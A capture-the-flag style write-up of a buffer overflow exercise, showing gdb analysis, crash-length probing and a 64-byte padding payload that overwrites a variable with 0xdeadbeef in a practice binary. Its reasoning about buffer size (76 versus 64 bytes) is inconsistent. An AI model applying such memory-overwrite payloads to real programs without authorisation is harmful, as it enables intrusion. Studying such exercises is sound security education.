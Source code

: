 `# ex05 - Buffer Overflow Exploitation

## Overview
The objective of this challenge is to manipulate a binary executable to change the value of a specific variable, ultimately triggering the message "you have hit the target correctly :)".

## Steps to Identify and Exploit the Vulnerability

### Initial Analysis
We started by identifying the type of the binary and looking for any useful strings within it:
```sh
file bin
strings bin 
```

This helped us understand the program's basic characteristics and locate any relevant messages or hints.

### Disassembly with GDB

Next, we used GDB to set breakpoints, run the program, and disassemble the binary:
```sh
`gdb bin
(gdb) break main
(gdb) run
(gdb) disassemble main
(gdb) disassemble vuln
```

By doing so, we found the `vuln` function and noted its structure.

### Finding the Buffer Size

We used trial and error to determine the buffer size that causes a segmentation fault, indicating overflow:

```sh

`./bin $(python -c "print 'A'*32")
./bin $(python -c "print 'A'*48")
./bin $(python -c "print 'A'*64")
./bin $(python -c "print 'A'*65")
./bin $(python -c "print 'A'*70")
./bin $(python -c "print 'A'*75")
./bin $(python -c "print 'A'*76")  # Causes a segmentation fault`
    
```

From this, we found that 76 bytes cause a segmentation fault, meaning the buffer size is 76.

### Crafting the Payload

We then crafted a payload that writes the target value `0xdeadbeef` at the correct location in memory:



```python
python -c "print 'A'*64 + '\xef\xbe\xad\xde'"
```

### Explanation

The payload worked because:

1.  **Buffer Size**: We filled the buffer with 64 'A' characters, which aligns with the start of the buffer.
2.  **Target Value**: `\xef\xbe\xad\xde` is the little-endian representation of `0xdeadbeef`, which is the value we need to set in the target variable.
3.  **Placement**: By placing `0xdeadbeef` right after the buffer, it correctly overwrites the target variable.

### Running the Exploit

We executed the binary with the crafted payload:

```sh
./bin $(python -c "print 'A'*64+'\xef\xbe\xad\xde'")
```

This command successfully triggered the message:

```sh
you have hit the target correctly :)
```

Conclusion
----------

This exercise demonstrates the process of identifying a buffer overflow vulnerability, calculating the buffer size, and crafting a payload to manipulate program execution.

### Tools Used

-   `file`
-   `strings`
-   `gdb`
-   Python

### Educational Purpose

These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities.